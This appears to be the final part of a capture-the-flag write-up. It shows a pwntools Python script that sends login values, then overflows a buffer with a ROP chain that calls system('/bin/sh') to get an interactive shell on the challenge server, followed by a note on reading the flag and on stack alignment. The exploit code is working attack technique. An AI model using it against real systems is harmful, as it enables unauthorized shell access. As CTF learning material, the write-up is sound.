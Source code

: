 ```py
    sess.sendline(b"57005")
    sess.sendline(b"bubbles1")

    sess.recvuntil(b"!")

    rop = [
        # Set RDI
        pwn.pack(elf.symbols["popopops"] + 4),
        ## Offset to system args ("/bin/sh") on stack
        pwn.pack(stack_address),
        # System
        pwn.pack(elf.symbols["testsystem"] + 14),
        # Arg for system
        b"/bin/sh"
    ]

    payload = pwn.cyclic(66) + b"".join(rop)

    sess.sendline(payload)

    sess.interactive()

if __name__ == "__main__":
    main()
```

We now have a `/bin/sh` on the remote server, so we can `cat` the flag.

![Flag 3](images/flag3.png)

*Note: I did not keep a copy of this flag so this is a demo value.*

## Fin

Note to self: `stack alignment` is important.
